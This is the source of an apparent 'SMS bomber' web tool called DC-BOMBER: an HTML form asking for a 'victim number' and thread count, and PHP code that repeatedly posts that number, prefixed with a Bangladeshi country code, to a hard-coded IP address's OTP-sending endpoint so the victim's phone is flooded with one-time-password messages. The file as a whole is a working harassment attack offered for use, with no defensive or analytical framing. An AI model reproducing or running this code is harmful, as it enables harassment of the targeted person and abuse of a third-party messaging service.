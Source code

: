 <!DOCTYPE html>
<html>
  <head>
    <meta http-equiv="content-type" content="text/html; charset=utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>DC-BOMBER</title>
    <link rel="stylesheet" href="style.css">
      
    </style>
  </head>
  <body>
<form align = "center" method="POST">
  
<label class="custom-field one">
  <input type="number" name="number" placeholder=" "/>
  <span class="placeholder">ENTER VICTIM NUMBER</span>
</label>
<br><br>
<label class="custom-field one">
  <input type="number" name= "amount" placeholder=" "/>
  <span class="placeholder">ENTER THREAD AMOUNT</span>
</label>
<button name="submit" class="custom-btn btn-1">START</button>

 </from>
 
  </body>
</html>

<?php
if(isset($_POST['submit'])){
	$number = $_POST['number'];
	$amount = $_POST['amount'];
	if($amount > 20 or $amount < 0){
	echo '<script type="text/javascript">';
	echo ' alert("Max Limit Reached !")';
	echo '</script>';
	}else{
		for($i=0; $i < $amount; $i++){

$url = "http://45.114.85.19:8080/v3/otp/send?";

$curl = curl_init($url);
curl_setopt($curl, CURLOPT_URL, $url);
curl_setopt($curl, CURLOPT_POST, true);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);

$headers = array(
   "Content-Type: application/x-www-form-urlencoded",
);
curl_setopt($curl, CURLOPT_HTTPHEADER, $headers);

$data = "msisdn=88".$number;

curl_setopt($curl, CURLOPT_POSTFIELDS, $data);
$resp = curl_exec($curl);
curl_close($curl);


	}
	}
	}
?>
